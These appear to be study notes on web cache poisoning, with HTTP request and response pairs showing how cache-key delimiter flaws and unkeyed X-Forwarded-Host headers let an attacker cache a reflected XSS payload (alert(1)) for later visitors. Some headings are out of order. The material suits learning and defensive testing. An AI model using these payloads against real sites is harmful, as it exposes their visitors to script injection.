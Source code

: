 EX : 
The following example uses double-underscores to delimit different components in the cache key and does not escape them.



Expolit Request : 
```http
GET /path?param=123 HTTP/1.1
Origin: '-alert(1)-'__
```
Expolit Response : 
```http
HTTP/1.1 200 OK
X-Cache-Key: /path?param=123__Origin='-alert(1)-'__

<script>…'-alert(1)-'…</script>
```

Victim Request :
```http
GET /path?param=123__Origin='-alert(1)-'__ HTTP/1.1
```
Victim Response : 
```http
HTTP/1.1 200 OK
X-Cache-Key: /path?param=123__Origin='-alert(1)-'__
X-Cache: hit

<script>…'-alert(1)-'…</script>
```

## Internal cache poisoning








# Exploiting cache design flaws 


### Using web cache poisoning to deliver an XSS attack

- Perhaps the simplest web cache poisoning vulnerability to exploit is when unkeyed input is reflected in a cacheable response without proper sanitization.
ex:
```http
GET /en?region=uk HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: a."><script>alert(1)</script>" 
```

```http
HTTP/1.1 200 OK 
Cache-Control: public 
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```
